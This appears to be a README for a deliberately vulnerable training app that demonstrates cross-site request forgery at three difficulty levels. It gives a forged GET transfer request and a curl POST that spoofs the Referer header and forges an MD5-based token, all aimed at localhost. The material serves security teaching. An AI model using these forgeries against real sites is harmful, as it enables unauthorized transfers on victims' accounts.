 # CSRF Token

The app is divided into three levels: Weak, Medium, and Strong. Each level introduces progressively stronger input sanitization, making it harder to exploit.

## CSRF Token Levels

### 1. Weak Level
- **Description**: This level simulates weak form validation and absense of csrf token.
- **Exploit Example**:
  ```
  Call this from a different tab or browser
  GET -> http://localhost:8000/csrf/csrf?amount=32&recipient=any
  ```

---

### 2. Medium Level
- **Description**: Referer ?, not safe, at all..
- **Info**: Using the normal get req wouldn't work, now there is a check for csrf_token 
- **Exploit Example**:
  ```bash
  # The csrf_roken is generated with md5 hash using current username 
  # (check the code), so it can be easily generated
  
  # Still you can use GET
  curl -X POST 'http:/localhost:8000/csrf/csrf?level=medium' \
  -H "Referer: http:/localhost:8000" \
  -d "amount=32&recipient=dsads&csrf_token={generated_csrf_token}" -b cookies

  ```

---

### 3. Strong Level
- **Description**: The csrf_token is safely generated and stored in session.
- **Exploit Example**:

---
